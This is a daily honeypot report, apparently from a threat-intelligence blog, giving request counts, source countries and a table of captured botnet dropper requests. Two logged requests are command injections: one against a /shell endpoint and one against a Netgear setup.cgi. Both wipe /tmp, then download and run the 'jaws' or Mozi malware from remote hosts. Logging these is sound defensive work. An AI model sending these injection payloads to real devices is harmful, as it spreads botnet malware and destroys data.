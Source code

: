 ```yaml
---
title: "Report: 2025-05-21 "
date: 2025-05-21
desciption: "Report: 2025-05-21" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-21 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 46 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1298 requests were recorded during the day, originating from 2 different countries, with a peak of 199 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 156.218.77.123  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.62/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                      |
| 117.209.127.246 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.209.127.246:60642/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request
